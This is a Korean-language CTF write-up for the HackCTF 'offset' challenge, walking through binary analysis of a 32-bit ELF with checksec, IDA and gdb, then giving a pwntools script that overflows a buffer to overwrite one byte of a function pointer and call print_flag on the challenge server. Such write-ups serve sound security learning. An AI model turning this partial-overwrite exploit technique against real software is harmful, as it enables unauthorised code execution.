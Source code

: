 **HackCTF - offset**

| layout | title            | auther   | categories | tags           |
| ------ | ---------------- | -------- | ---------- | -------------- |
| post   | HackCTF - offset | Y3oj4eng | writeup    | writeupwargame |



# Analysis

---

`file` 명령어를 통해 해당 바이너리의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file offset 
offset: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=c3936da4c051f1ca58585ee8b243bc9c4a37e437, not stripped

```

`32 bit ELF` 프로그램이며 `not-stripped` 이다.

`checksec`명령어를 통해 해당 `binary`에 적용된 `mitigation`을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec offset 
[*] '/home/mac/Desktop/hackCTF/offset'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

`Full RELRO` & `NX` & `PIE` 보호기법이 적용되었다.

`NX`가 적용되어 `heap`, `stack`등과 같은 메모리에 실행 권한이 사라지며 `PIE`기법이 적용되어 메모리 상 모든 영역이 랜덤으로 매핑된다. 

왜 이름이 `offset`인지 느낌이 온다.

일단 `binary`를 실행 시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./offset 
Which function would you like to call?
aaaaaaaaaaaaaaaaaaaaaaaaaa

```

`binary`를 실행시키면 `Which function would you like to call?`이라는 문자열을 출력하고 사용자로부터 입력을 받는다.

분석시 해당 `binary` 내 함수들을 유심히 봐야겠다.

이제 분석을 진행한다.

![image](https://user-images.githubusercontent.com/33051018/75871241-99900000-5e4f-11ea-8dc1-aee51ae3ca20.png)

`IDA`로 열자마자 `Function Window`부터 살펴보았다.

`print_flag`라는 의미심장한 이름의 함수가 있었다. 

`main`함수를 분석한 뒤, 해당 함수를 살펴보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75871414-deb43200-5e4f-11ea-8964-5a074ae2d3a2.png)

`main`함수이다.

버퍼를 초기화 한 뒤, 아까 봤던 문자열 `Which function would you like to call?`을 출력한다.

이후 `s`변수에 `gets`함수를 통해 값을 입력받는다.

`s`변수는 `ebp-0x27`에 위치하고 있으나 입력을 받을때 길이값을 검증하지 않아 `BOF`취약점이 존재한다.

이후 입력받은 `s`를 참조하여 `select_func`의 인자로 전달한 뒤 프로그램을 종료한다.

`select_func`함수를 살펴보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75871647-3a7ebb00-5e50-11ea-8cb5-b55cd0263bde.png)

`v3`는 함수형 포인터로써 `two`함수의 주소를 참조하도록 초기화한다.

이후 `select_func`은 전달받은 인자 `src`를 `dest`에 `31bytes`만큼 복사한다.

다음으로 분기를 통해 `dest`값을 `one`과 비교하여 만일 같으면 `v3`변수가 `one()`을 참조하도록 초기화하여 `v3`를 호출하고 다르면 그냥 `v3`를 호출한다.

**결론적으로 `select_func` 함수가 호출하는 함수의 주소는 `v3`에 담긴다.** 

아까 잠시 보고 지나갔던 `print_flag()` 함수를 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75872295-3bfcb300-5e51-11ea-9054-422d3b9ba8f3.png)

해당 함수는 `flag.txt`함수를 읽어서 출력해주는 함수이다.

따라서, `v3` 함수형 포인터가 `print_flag` 함수를 참조할 수 있도록 프로그램의 흐름을 변조하면 될 것 같다.

또한, `select_func`에서 `dest`와 `v3`의 사이 거리는 30bytes다.

이후 `strncpy`를 이용해 복사하는 데이터의 크기는 31bytes다. 따라서 우리는 호출하는 함수의 1byte만 덮어씌울수 있다.

```bash
gdb-peda$ pd select_func
Dump of assembler code for function select_func:
   0x0000077f <+0>:	push   ebp
   0x00000780 <+1>:	mov    ebp,esp
   0x00000782 <+3>:	push   ebx
   0x00000783 <+4>:	sub    esp,0x34
   0x00000786 <+7>:	call   0x5b0 <__x86.get_pc_thunk.bx>
   0x0000078b <+12>:	add    ebx,0x182d
   0x00000791 <+18>:	lea    eax,[ebx-0x190b]
   0x00000797 <+24>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000079a <+27>:	sub    esp,0x4
   0x0000079d <+30>:	push   0x1f
   0x0000079f <+32>:	push   DWORD PTR [ebp+0x8]
   0x000007a2 <+35>:	lea    eax,[ebp-0x2a]
   0x000007a5 <+38>:	push   eax
   0x000007a6 <+39>:	call   0x550 <strncpy@plt>
   0x000007ab <+44>:	add    esp,0x10
   0x000007ae <+47>:	sub    esp,0x8
   0x000007b1 <+50>:	lea    eax,[ebx-0x1675]
   0x000007b7 <+56>:	push   eax
   0x000007b8 <+57>:	lea    eax,[ebp-0x2a]
   0x000007bb <+60>:	push   eax
   0x000007bc <+61>:	call   0x4d0 <strcmp@plt>
   0x000007c1 <+66>:	add    esp,0x10
   0x000007c4 <+69>:	test   eax,eax
   0x000007c6 <+71>:	jne    0x7d1 <select_func+82>
   0x000007c8 <+73>:	lea    eax,[ebx-0x1864]
   0x000007ce <+79>:	mov    DWORD PTR [ebp-0xc],eax
   0x000007d1 <+82>:	mov    eax,DWORD PTR [ebp-0xc]
   0x000007d4 <+85>:	call   eax
   0x000007d6 <+87>:	nop
   0x000007d7 <+88>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000007da <+91>:	leave  
   0x000007db <+92>:	ret
```

`select_func` +85 부분이 `v3` 함수를 호출하는 부분이다.

해당 부분에 `breakpoint`를 걸고 `eax`값을 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75874952-21790880-5e56-11ea-8524-becd2929109e.png)

`eax`에는 `0x56555600` 값이 들어가있다.

궁극적으로 실행시켜야할 함수 `print_flag`의 주소는 `0x565556d8` 이다.

두 주소를 비교해보면 맨 끝자리 2개 즉, 첫 한 바이트만 차이난다.

따라서, 페이로드의 구성은 30개의 더미와 `print_flag`함수의 첫주소인 `0xd8`을 조합하여 전달한다.

# Explolit

---

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)
#p = process('./offset')

payload = 'A'*30
payload += '\xd8'

p.recvuntil('Which function would you like to call?\n')
p.sendline(payload)

p.interactive()
```

